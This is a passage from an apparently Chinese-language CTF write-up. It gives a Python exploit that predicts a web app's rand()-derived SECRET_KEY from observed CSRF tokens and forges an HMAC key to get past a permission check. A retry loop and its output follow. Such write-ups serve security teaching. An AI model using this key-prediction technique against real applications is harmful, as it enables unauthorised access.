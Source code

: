     def parse(token,s):
        d = []
        for i in xrange(len(token)):
            for j in xrange(len(s)):
                if token[i] == s[j]:
                    d.append(j)
                    break
        return d    

    def guess(d,s,a):
        result = []
        for i in xrange(6):
            r = (d[31+i]+62-d[28+i])%62
            result.append(r)
        key = ''.join(s[j] for j in result) 

        return hmac.new(key,a).hexdigest()  

    r0 = session.get(url)
    token0 = re.findall(re_csrf_token,r0.text)[-1]
    d0 = parse(token0,str_list)
    payload0 = {'submit':'go', 'CSRF_TOKEN':token0, 'act':action, 'key':'1234567'}
    session.post(url,data=payload0)
    r1 = session.get(url)
    token1 = re.findall(re_csrf_token,r1.text)[-1]
    d1 = parse(token1,str_list)
    pre =  [0,0,0,0,0,0]+d0+d1
    key = guess(pre,str_list,action)
    payload1 = {'submit':'go', 'CSRF_TOKEN':token1, 'act':action, 'key':key}
    r2 = session.post(url,data=payload1)    

    if 'Permission deny!!' not in r2.text:
        print '[+]Done!'
        print r2.text

由于rand生成算法中有加1的随机情况存在，所以这里就需要多推测几次得到正确的SECRET_KEY，进入if逻辑调用函数，所以再写一个初步的代码（get-1.py）重复测试

    #!python
    #!/usr/bin/env python
    #coding=utf-8   

    import sys
    import subprocess   

    while 1:
        output = subprocess.check_output(['python',sys.argv[1],sys.argv[2]])
        if output:
            print output
            break

运行得到如下输出：

    #!shell
    $ python get-1.py new-1.py flag
    [+]Done!
        <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <title>Error</title>
            <link rel="stylesheet" href="style.css">
            <!-- ?x_show_source -->
        </head>
        <body>  


[1]: 1.png
[2]: 2.png
[3]: 3.png
[4]: 4.png
[5]: 5.png